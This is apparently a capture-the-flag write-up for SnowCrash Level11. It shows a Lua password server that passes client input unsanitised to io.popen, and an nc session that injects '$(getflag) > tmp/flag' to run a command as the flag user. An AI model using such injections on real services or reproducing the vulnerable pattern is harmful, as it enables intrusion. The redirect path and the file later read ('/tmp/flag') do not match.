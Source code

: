 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

What we can understand:
- A server seems to be set up on our `localhost` on port `5151`
- It will ask for a passord
- Will sends this password in a hash function
- Will apply a sha1sum on it
- Will return the 40 first characters of it
- And will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

`popen` is known for its vunerability to command injections, as it will execute code, see: 
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So `io.popen` starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program `level11.lua` will execute 
```bash
echo "..pass.." | sha1sum
```
`echo "$(command)"` will execute the command.

So we have to send `$(getflag)` as a password to the program. How to connect on port `5151` ? </br>

```bash
level11@SnowCrash:~$ curl http://localhost:5151
Password: Erf nope..
```
Fails, remembered previous level `netcat` command.

## Solution

Let's connect to our `localhost` port `5151`:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```
don't return the flag, it will pipe into shasum, etc...

So let's redirect getflag to a file:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXX
```
